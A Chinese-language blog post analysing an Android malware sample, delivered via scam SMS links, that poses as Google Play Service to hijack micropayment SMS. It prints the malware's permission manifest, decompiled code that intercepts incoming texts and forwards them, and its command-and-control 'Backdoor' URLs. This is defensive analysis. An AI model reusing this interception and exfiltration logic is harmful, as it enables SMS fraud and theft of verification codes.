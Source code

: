 ```yaml
---
layout: post
title: "小額付費簡訊詐騙"
tags: android
---
```


最近好像很流行收到這種奇怪的簡訊

<a href="http://www.flickr.com/photos/51077287@N06/10746549465/" title="Flickr 上 sunrisedm4 的 詐騙簡訊"><img src="http://farm3.staticflickr.com/2835/10746549465_c046942cc1.jpg" width="333" height="500" alt="詐騙簡訊"></a>

用 iPhone 點開網址之後發現會被導到一個已經關閉的無名相簿，研究了一下發現他會判斷 `User-Agent` 來決定要導到哪裡，
如果把 `User-Agent` 設成 Android 瀏覽器的話，會被導到一個下載 Andorid apk 的連結

不過大概是新聞報很大的原因，詐騙連結幾乎都已經失效了

把載下來的 apk 拆開會發現它是一個偽裝成 Google Play Service 的程式
（要拆 apk 推薦使用 [androguard](http://code.google.com/p/androguard/) ，它的 Sublime Text plugin 簡直是神器......）

使用到的權限和用到的 components

``` xml AndroidManifest.xml
<?xml version="1.0" ?>
<manifest android:versionCode="1" android:versionName="1.0" package="com.google.android.gmss" xmlns:android="http://schemas.android.com/apk/res/android">
    <uses-sdk android:minSdkVersion="4" android:targetSdkVersion="17"></uses-sdk>
    <uses-permission android:name="android.permission.RECEIVE_BOOT_COMPLETED"></uses-permission>
    <uses-permission android:name="android.permission.INTERNET"></uses-permission>
    <uses-permission android:name="android.permission.RECEIVE_SMS"></uses-permission>
    <uses-permission android:name="android.permission.SEND_SMS"></uses-permission>
    <uses-permission android:name="android.permission.WRITE_SMS"></uses-permission>
    <uses-permission android:name="android.permission.READ_SMS"></uses-permission>
    <uses-permission android:name="android.permission.READ_PHONE_STATE"></uses-permission>
    <uses-permission android:name="android.permission.ACCESS_WIFI_STATE"></uses-permission>
    <uses-permission android:name="android.permission.ACCESS_NETWORK_STATE"></uses-permission>
    <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"></uses-permission>
    <uses-permission android:name="android.permission.CALL_PHONE"></uses-permission>
    <uses-permission android:name="android.permission.PROCESS_OUTGOING_CALLS"></uses-permission>
    <application android:allowBackup="true" android:icon="@7F020002" android:label="@7F050000" android:theme="@7F060001">
        <activity android:label="" android:name="com.google.android.gmss.MainActivity">
            <intent-filter>
                <action android:name="android.intent.action.MAIN">
                </action>
                <category android:name="android.intent.category.LAUNCHER">
                </category>
            </intent-filter>
        </activity>
        <receiver android:name="com.google.android.gmss.BootBroadcastReceiver">
            <intent-filter>
                <action android:name="android.intent.action.BOOT_COMPLETED">
                </action>
            </intent-filter>
        </receiver>
        <service android:exported="true" android:label="@7F050000" android:name="com.google.android.gmss.MouseCave">
        </service>
        <receiver android:name="com.google.android.gmss.MouseEar">
            <intent-filter android:priority="2147483647">
                <action android:name="android.provider.Telephony.SMS_RECEIVED">
                </action>
                <category android:name="android.intent.category.DEFAULT">
                </category>
            </intent-filter>
        </receiver>
        <receiver android:name="com.google.android.gmss.MouseNose">
            <intent-filter>
                <action android:name="android.intent.action.NEW_OUTGOING_CALL">
                </action>
            </intent-filter>
        </receiver>
        <receiver android:name="com.google.android.gmss.BlackCat">
            <intent-filter>
                <action android:name="com.mouse.BlackCat">
                </action>
            </intent-filter>
        </receiver>
    </application>
</manifest>
```

可以看到這個 app 要了一些邪惡的權限，
並且有個 receiver 會偵測 `android.provider.Telephony.SMS_RECEIVED` 這個動作，
在收到簡訊的時候被觸發，是和小額付費比較有相關的地方

``` java me.java
package com.google.android.gmss;
public class MouseEar extends android.content.BroadcastReceiver {
    // ...
            if(v3[v2].getMessageBody().toString().contains("*#060#") == 0) {
                if(com.google.android.gmss.c.a(p8) != 0) {
                    this.abortBroadcast();
                    v1 = new java.util.HashMap();
                    v1.put("type", "1");
                    v1.put("source", v3[v2].getOriginatingAddress().toString());
                    v1.put("content", v3[v2].getMessageBody().toString());
                    new Thread(new com.google.android.gmss.h(this, v1, p8)).start();
                }
            } else {
                this.abortBroadcast();
                v1 = v3[v2].getOriginatingAddress();
                v4 = v3[v2].getMessageBody().substring(6);
                v5 = new java.util.HashMap();
                v5.put("phone_id", v4);
                v5.put("phone_num", v1);
                new Thread(new com.google.android.gmss.g(this, v5, p8)).start();
            }
    // ...
}
```

可以看到在收到新簡訊的時候，會判斷內容有沒有包括特定字串，
有的話就會把整個簡訊內容回傳，如果沒有的話只會回傳前六個字元

再往下追可以找到回報資料的伺服器位置和一些東西，不過當然也失效了

``` java .java
package com.google.android.gmss;
public class l {
    // ...
    static l()
    {
        com.google.android.gmss.l.a = "http://googleapp.leitungsen.de:1652/";
        com.google.android.gmss.l.b = new StringBuilder(String.valueOf(com.google.android.gmss.l.a)).append("index.php/Backdoor/submit").toString();
        com.google.android.gmss.l.c = new StringBuilder(String.valueOf(com.google.android.gmss.l.a)).append("index.php/Backdoor/deploy_report").toString();
        com.google.android.gmss.l.d = new StringBuilder(String.valueOf(com.google.android.gmss.l.a)).append("index.php/Backdoor/task_query").toString();
        com.google.android.gmss.l.e = new StringBuilder(String.valueOf(com.google.android.gmss.l.a)).append("index.php/Backdoor/get_blockrules").toString();
        com.google.android.gmss.l.f = new StringBuilder(String.valueOf(com.google.android.gmss.l.a)).append("index.php/Backdoor/phones_query").toString();
        com.google.android.gmss.l.g = new StringBuilder(String.valueOf(com.google.android.gmss.l.a)).append("index.php/Backdoor/phone_num_submit").toString();
        com.google.android.gmss.l.h = new StringBuilder(String.valueOf(com.google.android.gmss.l.a)).append("index.php/Backdoor/get_url").toString();
        com.google.android.gmss.l.i = "c84258e9c39059a89ab77d846ddab909";
        com.google.android.gmss.l.j = new java.util.ArrayList();
        return;
    }
    // ...
}
```

裝了惡意程式之後會莫名其妙的被盜用小額付費的原因，
我**猜**應該是小額付費的認證簡訊會包含特定內容，把整封簡訊回傳是為了要拿到小額付費的認證碼，
如果不是小額付費的簡訊，這隻惡意程式會回傳前六個字元的原因，
我**猜**可能是覺得簡訊一開頭很有可能有人名吧，
一但拿到人名 + 電話，就又多了一個詐騙的目標......

